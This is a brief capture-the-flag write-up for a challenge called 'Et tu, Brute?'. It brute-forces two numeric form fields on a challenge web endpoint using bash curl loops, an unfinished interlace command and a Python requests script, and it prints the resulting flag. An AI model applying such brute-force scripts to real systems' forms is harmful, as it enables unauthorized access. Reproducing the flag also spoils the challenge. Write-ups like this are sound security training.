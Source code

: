 # Et tu, Brute?

## Objetivo

## Solucion

      
```bash
for i in {1..100}; do for j in {1..100}; do echo $i:$j; done; done


for i in {1..100}; do for j in {1..100}; do curl -X POST -d 'number=$i&number2=$j' 'https://mhsctf-ettubrute.0xmmalik.repl.co/status.php'; done; done

interlace -t https://mhsctf-ettubrute.0xmmalik.repl.co/status.php -threads 40 -c 



curl -X POST -d 'number=1&number2=1' https://mhsctf-ettubrute.0xmmalik.repl.co/status.php


```

```python
import requests

url = 'https://mhsctf-ettubrute.0xmmalik.repl.co/status.php'
s = requests.Session()

for i in range(1,101):
    for j in range(1,101):
        data = {'number':i, 'number2':j}
        r = s.post(url, data=data)
        if(j==1): print(data)
        if 'Sorry' not in r.text:
            print(data)
            print(r.text)
```

```bash
{'number': 77, 'number2': 97}
Wow! You must really be my friend if you know my favorite and second favorite numbers! Here's a flag for you: flag{pur3_s7r3ngth}
{'number': 78, 'number2': 1}
```

## Flag
Wow! You must really be my friend if you know my favorite and second favorite numbers! Here's a flag for you: flag{pur3_s7r3ngth}
## Referencias